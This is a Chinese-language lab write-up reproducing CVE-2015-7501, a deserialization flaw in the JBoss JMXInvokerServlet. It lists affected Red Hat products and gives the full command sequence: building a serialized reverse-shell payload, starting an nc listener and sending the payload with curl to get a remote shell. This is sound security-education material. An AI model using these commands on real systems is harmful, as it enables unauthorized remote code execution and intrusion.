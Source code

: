 （CVE-2015-7501）JBoss JMXInvokerServlet 反序列化漏洞
=====================================================

一、漏洞简介
------------

由于JBoss中invoker/JMXInvokerServlet路径对外开放，JBoss的jmx组件支持Java反序列化

二、漏洞影响
------------

Red Hat JBoss A-MQ 6.x版本；BPM Suite (BPMS) 6.x版本；BRMS
6.x版本和5.x版本；Data Grid (JDG) 6.x版本；Data Virtualization (JDV)
6.x版本和5.x版本；Enterprise Application Platform
6.x版本，5.x版本和4.3.x版本；Fuse 6.x版本；Fuse Service Works (FSW)
6.x版本；Operations Network (JBoss ON) 3.x版本；Portal 6.x版本；SOA
Platform (SOA-P) 5.x版本；Web Server (JWS) 3.x版本；Red Hat
OpenShift/xPAAS 3.x版本；Red Hat Subscription Asset Manager 1.3版本。

三、复现过程
------------

win7一台，ip为172.26.1.151（靶机，安装了java环境）

kali一台，ip为192.168.1.192(攻击机)

输入<http://172.26.1.151:8080/invoker/JMXInvokerServlet>
返回如图，说明接口开发，存在反序列化漏洞

![](./.resource/(CVE-2015-7501)JBossJMXInvokerServlet反序列化漏洞/media/rId25.png)

进入kali攻击机，下载反序列化工具:<https://github.com/ianxtianxt/CVE-2015-7501/>

解压完，进入到这个工具目录 ,执行命令:

    javac -cp .:commons-collections-3.2.1.jar ReverseShellCommonsCollectionsHashMap.java

继续执行命令:

    java -cp .:commons-collections-3.2.1.jar ReverseShellCommonsCollectionsHashMap 192.168.1.192:4444（IP是攻击机ip,4444是要监听的端口)

新界面开启nc准备接收反弹过来的shell。命令:nc -lvnp 4444

这个时候在这个目录下生成了一个ReverseShellCommonsCollectionsHashMap.ser文件，然后我们curl就能反弹shell了，执行命令:

    curl http://172.26.1.151:8080/invoker/readonly --data-binary @ReverseShellCommonsCollectionsHashMap.ser 

![](./.resource/(CVE-2015-7501)JBossJMXInvokerServlet反序列化漏洞/media/rId27.png)

打开nc界面，发现shell已经弹回来了

![](./.resource/(CVE-2015-7501)JBossJMXInvokerServlet反序列化漏洞/media/rId28.png)
